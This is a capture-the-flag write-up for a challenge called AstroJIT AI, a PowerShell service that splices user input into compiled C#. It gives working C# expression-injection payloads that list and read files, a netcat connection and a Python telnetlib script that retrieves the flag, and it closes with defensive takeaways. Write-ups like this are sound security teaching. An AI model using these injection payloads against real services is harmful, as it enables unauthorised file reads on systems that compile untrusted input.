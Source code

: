 # AstroJIT AI CTF Writeup

## Challenge Summary
AstroJIT AI is a remote PowerShell application that JIT-compiles user-provided "weight" lists into C#. The service exposes a menu with options to register weights, chat with the AI, train on emails, inspect weights, and exit. Guest access skips the API token requirement, letting us interact with every menu item.

## Recon
- Submitting a simple payload like `{1,2,3}` to option 1 succeeds and returns to the menu.
- Feeding `{nan}` breaks compilation. PowerShell prints the generated C# source from `/app/evil_corp_ai.ps1`, confirming our input is spliced into `new[]{ ... }` within `CalculatePrecompiledWeights()`.
- The leaked source reveals only semicolons are stripped; otherwise, the payload becomes a raw C# expression evaluated inside the trusted app domain.

## Vulnerability
Because the service compiles our brace-delimited values directly into a C# array literal, we can supply arbitrary expressions. No sandboxing prevents filesystem access from within the compiled code, and the later "Weight Debugging" option echoes the evaluated results without the censorship logic that filters the chat bot output.

## Exploitation Steps
1. Connect in guest mode:
   ```bash
   nc astrojit.sunshinectf.games 25006
   ```
2. Choose option 1 (Register Weights) and submit a discovery payload, for example:
   ```
   {System.String.Join(",",System.IO.Directory.GetFiles("."))}
   ```
   This lists local files, revealing `flag.txt`.
3. Re-run option 1 with a read payload:
   ```
   {System.IO.File.ReadAllText("flag.txt")}
   ```
4. Choose option 4 (Weight Debugging). The service prints the stored weight for `a`, which now contains the flag.

## Automation Snippet
```python
import telnetlib

HOST, PORT = 'astrojit.sunshinectf.games', 25006

with telnetlib.Telnet(HOST, PORT) as t:
    t.read_until(b'use guest mode: ')
    t.write(b'\n')
    t.read_until(b'Enter an option: ')
    t.write(b'1\n')
    t.read_until(b'Weights: ')
    t.write(b'{System.IO.File.ReadAllText("flag.txt")}\n')
    t.read_until(b'Enter an option: ')
    t.write(b'4\n')
    print(t.read_until(b'Enter an option: ').decode())
```

## Flag
```
sun{evil-corp-one-uprising-at-a-time-folks-may-be-evil-but-do-not-get-burnt-out-just-burn-the-building-down-before-you-go-we-need-the-insurance-money}
```

## Takeaways
- Treat any user-controlled strings that reach `Add-Type` in PowerShell as code; expression-level sanitisation is mandatory.
- Attempted censorship applied only to chat responses, leaving other functionality (like weight debugging) as a clean data exfiltration channel.
- Even without semicolons, C# expressions provide ample surface for file I/O and other privileged actions when executed in-process.
